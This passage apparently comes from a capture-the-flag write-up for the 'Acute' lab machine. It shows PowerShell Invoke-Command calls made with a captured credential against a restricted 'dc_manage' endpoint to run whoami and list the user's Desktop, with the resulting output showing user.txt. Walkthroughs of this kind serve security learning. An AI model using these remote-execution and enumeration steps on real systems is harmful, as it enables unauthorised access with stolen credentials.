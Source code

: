 I tried replicating what they were doing, and got the same error.  I was not able to create the PSSession to log in.  I did some research on the error message, and found a blog post that showed how to manage Windows Server containers using PowerShell.  It seemed to indicate that this error was because the server was a container. 

* https://petri.com/managing-windows-server-containers-with-powershell-managing-containers/

> If you run Enter-PSSession too soon after starting a container, then you will get the following misleading error:
Enter-PSSession : The term ‘Measure-Object’ is not recognized as the name of a cmdlet, function, script file, or operable program.

> The advantage of Enter-PSSession is that it allows you to get quite a bit of manual work done inside of a container. However, it is an interactive-only approach, and it is not suitable for remote scripting.
>If you want to run a single command against a container, or if you want to script administrative tasks inside of a container, then you should use Invoke-Command. Invoke-Command allows you to execute a script block against a machine or a container; the example below will send a script block to retrieve the IPv4 address of a container, which we might later use to create NAT rules on a VM host.

## Enumeration as acute\imonks

```powershell
Invoke-Command -computername atsserver -ConfigurationName dc_manage -ScriptBlock {$(ls $env:userprofile/Desktop)} -Credential $cred
```

I had a bit of hard time getting commands to run, but using the information from the blog post and combining it with what the user had been doing I was able to get single commands to run.

```powershell
Invoke-Command -computername atsserver -ConfigurationName dc_manage -ScriptBlock {$(whoami /all)} -Credential $cred
Program 'whoami.exe' failed to run: The term 'Out-String' is not recognized as the name of a cmdlet, function, script 
file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct 
and try again.At line:1 char:3
+ $(whoami /all)
+   ~~~~~~~~~~~.
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
    + PSComputerName        : atsserver
```

However, not all commands would run, unfortunately.  

### User.txt

```
PS C:\Windows\system32> Invoke-Command -computername atsserver -ConfigurationName dc_manage -ScriptBlock {$(ls $env:userprofile/Desktop)} -Credential $cred
Invoke-Command -computername atsserver -ConfigurationName dc_manage -ScriptBlock {$(ls $env:userprofile/Desktop)} -Credential $cred


    Directory: C:\Users\imonks\Desktop


Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-ar---        15/07/2022     13:32             34 user.txt                           atsserver                         
-a----        11/01/2022     18:04            602 wm.ps1                             atsserver
```
